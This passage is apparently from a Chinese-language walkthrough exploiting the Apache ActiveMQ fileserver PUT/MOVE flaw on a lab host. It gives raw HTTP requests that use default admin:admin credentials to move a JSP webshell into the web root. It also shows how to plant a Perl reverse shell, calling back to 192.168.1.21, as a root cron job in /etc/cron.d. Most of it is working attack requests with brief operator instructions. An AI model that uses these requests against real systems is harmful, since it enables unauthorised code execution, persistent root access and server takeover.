 ```
MOVE /fileserver/ra1n3.jsp HTTP/1.1
Host: 192.168.1.15:8161
Destination:file:///opt/activemq/webapps/api/ra1n3.jsp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Encoding: gzip, deflate
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
```

然后可以通过访问/api/ra1n3.jsp验证

页面为空则说明成功上传webshell，但是要注意的是，api和admin访问时，需要身份验证，因此后续利用webshell管理工具连接时，需要加入身份验证的HEAD

```
Authorization: Basic YWRtaW46YWRtaW4=
```

这里是admin：admin



定时任务反弹shell

思路：将cron文件从fileserver移动到/etc/cron.d

然后开启监听等待回连

定时这需要运行activemq的用户具有root权限，同时服务器开启了cron服务，运行activemq的用户具有使用crontab的权限

```
PUT /fileserver/cron.txt HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 246

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.1.21";$p=283;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##

```

这里是perl反弹shell



```
MOVE /fileserver/cron.txt HTTP/1.1
Destination:file:///etc/cron.d/root
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```
